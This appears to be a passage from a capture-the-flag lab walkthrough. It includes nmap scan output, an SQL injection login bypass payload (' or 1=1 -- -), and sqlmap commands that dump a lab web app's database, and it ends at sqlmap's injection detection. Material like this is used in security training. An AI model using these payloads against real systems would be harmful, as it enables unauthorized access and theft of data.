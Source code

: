```text
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (94%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   39.80 ms 10.9.0.1
2   40.16 ms 10.10.13.164

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 30 21:15:58 2022 -- 1 IP address (1 host up) scanned in 17.68 seconds
```

## Using SQLMap

In the main page, use `' or 1=1 -- -` as username and leave the password blank. This logs you in and calls up a
`portal.php` page with a search box.

Intercept a `test` search on the portal page with Burpsuite:

| ![Intercepted search request](/_static/images/screenshot-intercept-game.png)
|:--:|
| Intercepted search request |

Save the intercepted request in a `.txt` file, to feed into `sqlmap`.

Run SQLMap:

* `-r` uses the intercepted request you saved earlier
* `--dbms` tells SQLMap what type of database management system it is
* `--dump` attempts to outputs the entire database

```text
# sqlmap -r intercepted-search.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:05:35 /2022-09-30/

[22:05:35] [INFO] parsing HTTP request from 'intercepted-search.txt'
[22:05:35] [INFO] testing connection to the target URL
[22:05:35] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:05:35] [INFO] testing if the target URL content is stable
[22:05:36] [INFO] target URL content is stable
[22:05:36] [INFO] testing if POST parameter 'searchitem' is dynamic
[22:05:36] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[22:05:36] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
```